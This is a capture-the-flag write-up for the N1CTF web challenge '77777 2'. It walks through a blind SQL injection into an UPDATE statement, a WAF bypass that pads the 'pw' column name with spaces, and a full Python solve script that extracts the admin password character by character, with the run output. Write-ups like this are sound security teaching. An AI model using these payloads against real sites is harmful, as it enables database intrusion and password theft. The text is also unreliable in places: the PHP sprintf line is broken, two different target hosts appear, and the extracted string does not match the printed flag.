 ## 77777 2 (Web, 208pt)

> Contestants won't influence each other while solving the challenge.
> 
> http://47.52.137.90:20000

The task was quite similar to [77777](../77777-104/README.md) with some small differences.

The About tab has changed a bit.

```
U can update my points in Profile.

and And the flag is `admin's pw`:)
```

The `update_point()` function remains exactly the same but we guess that the `waf()` function is less permissive this time.

```php
function update_point($p, $points){
    global $link;
    $q = sprintf("UPDATE users SET points=%d%s, $p, waf($points)");
    if(!$query = mysqli_query($link, $q)) return FALSE;
    return TRUE;
}
if(!update_point($_POST['flag'], $_POST['hi']))
    echo 'sorry';
```

Fuzzing the `waf()` for character limitations, we see that only the following characters are allowed:

```
[+]  0, 1, 6, 7, 8
[+]  a-z (not 'j')
[+]  A-Z (not 'J')
[+]  " # $ ' ( ) * + , - . : ; > ? @ [ \ ] _ { | }
[+]  \s
```

Some MySQL functions have also been restricted. What took more time in this challenge, was to realize that the column name that we had to extract was `pw` and not `password` as before (see About tab). After realing this, we issued the following request to determine password length.

```
POST / HTTP/1.1
Host: 47.75.14.48
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Connection: close

flag=1&hi=*length( pw )
```

The `waf()` function did not allow the `pw` keyword to be prefixed or followed by any characters apart from whitespaces. So, we put spaces before and after, to bypass it.

Knowing the length and having bypassed the `pw` filtering, we can retrieve full password using a payload such as:

```
flag=1&hi=*convert(hex(substr( pw ,BINARY_INDEX,1)),signed)
```

The solution is automated in the [solve.py](solve.py) script.

```python
import re
import requests

_target = 'http://47.52.137.90:20000/'

def extract_points(html):
    return re.search(r'<grey>My Points</grey> \| ([0-9]+)<br/>', html).group(1).strip()

def get_pw_len():
    d = {'flag': '1', 'hi': '*length( pw )'}
    resp = requests.post(_target, data=d)
    return int(extract_points(resp.text))

flag = ''
for i in range(1,get_pw_len()+1):
    d = {'flag': '1', 'hi': '*convert(hex(substr( pw ,0b{0:b},1)),signed)'.format(i)}
    resp = requests.post(_target, data=d)
    flag += chr(int(extract_points(resp.text), 16))
    print flag

print '[+] flag: N1CTF{{{}}}'.format(flag)
```

```
❯❯❯ python solve.py
h
ha
hah
haha
hahah
hahah7
hahah77
hahah777
hahah777a
hahah777a7
hahah777a7a
hahah777a7ah
hahah777a7aha
hahah777a7aha7
hahah777a7aha77
hahah777a7aha777
hahah777a7aha7777
hahah777a7aha77777
hahah777a7aha77777a
hahah777a7aha77777aa
hahah777a7aha77777aaa
hahah777a7aha77777aaaa
[+] flag: N1CTF{helloctfer23333}
```
